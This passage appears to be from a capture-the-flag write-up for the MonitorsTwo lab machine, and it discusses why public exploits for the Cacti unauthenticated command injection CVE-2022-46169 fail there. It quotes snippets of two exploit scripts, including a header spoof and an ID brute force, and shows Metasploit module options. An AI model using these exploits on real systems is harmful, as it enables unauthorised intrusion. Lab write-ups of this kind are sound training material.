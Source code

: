     
    
    HEADER = add_header(URL)
    words = ["cpu","cmd.php","polling_time","apache"]
    
    def finding_id(URL,HEADER):
        print("[*] Brute-Forcing Process Is Running ...")
        last_url = None
        for id in range(1,11):
            for item in range(1,11):
                url_id = URL+f"&poller_id=1&host_id={str(id)}&local_data_ids[]={str(item)}"
                req_id = requests.get(url_id,headers=HEADER,verify=False)
                if any(x in req_id.text for x in words):
                    last_url = URL+f"&host_id={str(id)}&local_data_ids[]={str(item)}&poller_id="
                    print("[*] True Ids Founded")
                    return last_url
        print("[!] Could Not Find Specific Process")
        exit(0)
    

It turns out that `polling_time` never comes back on MonitorsTwo, and thus
this thinks it’s not vulnerable.

[This](https://github.com/sAsPeCt488/CVE-2022-46169) is another that looked
nice, but it’s only looking for `cmd.php` in the response:

    
    
    for id in range(args.n_ids):
        url = f'{args.target}/remote_agent.php'
        params = {'action': 'polldata', 'host_id': id,
                  'poller_id': payload, 'local_data_ids[]': local_data_ids}
        headers = {'X-Forwarded-For': target_ip}
    
        r = requests.get(url, params=params, headers=headers)
        if('cmd.php' in r.text):
            print(f"[+] Exploit Completed for host_id = {id}")
            break
    

It also only brute forces on `host_id`, trying all the `local_data_ids` at
once. The SonarSource article said that was possible, but I’m not sure it’s
working here.

The most interesting failure I ran into is the Metasploit module. I’ll set it
up, making sure to change the `SRVPORT` from the default 8080 (where I’ve
already got Burp listening) to something else (8000):

    
    
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options
    
    Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):
    
       Name                Current Setting  Required  Description
       ----                ---------------  --------  -----------
       HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
       LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
       Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS              10.10.11.211     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                                      metasploit.html
       RPORT               80               yes       The target port (TCP)
       SSL                 false            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI           /                yes       The base path to Cacti
       URIPATH                              no        The URI to use for this exploit (default is random)
       VHOST                                no        HTTP server virtual host